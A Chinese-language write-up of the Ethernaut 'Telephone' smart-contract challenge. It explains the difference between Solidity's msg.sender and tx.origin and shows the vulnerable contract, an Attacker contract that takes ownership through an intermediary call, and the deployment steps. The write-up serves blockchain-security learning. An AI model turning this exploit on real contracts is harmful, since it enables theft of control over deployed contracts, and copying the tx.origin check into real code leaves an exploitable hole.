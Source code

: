 # Telephone

Telephone这一关要求我們成爲目標合約的owner,考察了solidity中对于`msg.sender`和`tx.origin`的区别。让我们先来看这个合约的代码

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
 
## 代码分析
这个合约中改变`owner`使用的是`changeOwner`函数，这个函数中有一个判断，如果`tx.origin`不等于`msg.sender`，那么就可以改变`owner`。但是如果当我们直接call `changeOwner`函数的时候，`tx.origin`和`msg.sender`是相等的，这样就会导致我们没有办法改变`owner`。这里需要提及的一个知识点是：
假设我们有两个合约`A`和`B`, Alice调用了合约`A`的一个函数，那么在这个情况下，`tx.origin`是Alice，并且`msg.sender`也是Alice。但如果Alice调用了合约`A`的一个函数，这个函数又调用了合约`B`的一个函数，那么在这个情况下，`tx.origin`是Alice，但是`msg.sender`是合约`A`。
根据以上的知识点，我们只需要创建一个合约，用这个合约来调用Telephone合约的`changeOwner`函数，就可以改变`owner`了。

## 攻击代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {
    constructor(address _target){
        Telephone(_target).changeOwner(msg.sender);
    }
}

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

```
## 攻击过程
1. 部署Telephone的新实例，获得合约地址
2. 部署Attacker合约，将Telephone合约地址作为constructor的参数，这样就将owner改成了我们的钱包地址了
